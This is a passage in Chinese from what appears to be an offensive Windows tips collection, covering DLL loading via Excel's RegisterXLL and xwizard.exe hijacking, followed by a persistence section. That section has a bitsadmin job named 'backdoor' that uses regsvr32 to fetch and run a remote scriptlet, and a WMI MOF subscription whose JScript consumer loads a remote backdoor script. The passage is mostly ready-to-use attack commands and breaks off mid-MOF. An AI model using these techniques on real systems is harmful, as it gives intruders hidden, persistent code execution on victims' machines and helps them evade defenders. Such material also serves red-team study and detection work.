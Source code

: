 方法5：Excel.Application object's RegisterXLL() method

前提：已安装Microsoft Office软件

1.rundll32

```
var excel = new ActiveXObject("Excel.Application");
excel.RegisterXLL("C:\\test\\messagebox.dll");
```

3.powershell

```
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
$excel.RegisterXLL("C:\test\messagebox.dll")
```

参考：《Use Excel.Application object's RegisterXLL() method to load dll》

方法6：xwizard.exe

复制%windir%\system32\下的xwizard.exe至新目录C:\x

将msg.dll重命名为xwizards.dll，保存在C:\x

命令行执行：

```
xwizard processXMLFile 1.txt
```

成功加载C:\x\xwizards.dll

参考：《Use xwizard.exe to load dll》

#### Tips 30. Windows Persistence

方法1：bitsadmin

```
bitsadmin /create backdoor
bitsadmin /addfile backdoor %comspec%  %temp%\cmd.exe
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"
bitsadmin /Resume backdoor
```

参考：《Use bitsadmin to maintain persistence and bypass Autoruns》

方法2：mof

```
pragma namespace("\\\\.\\root\\subscription")    
instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};    
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
```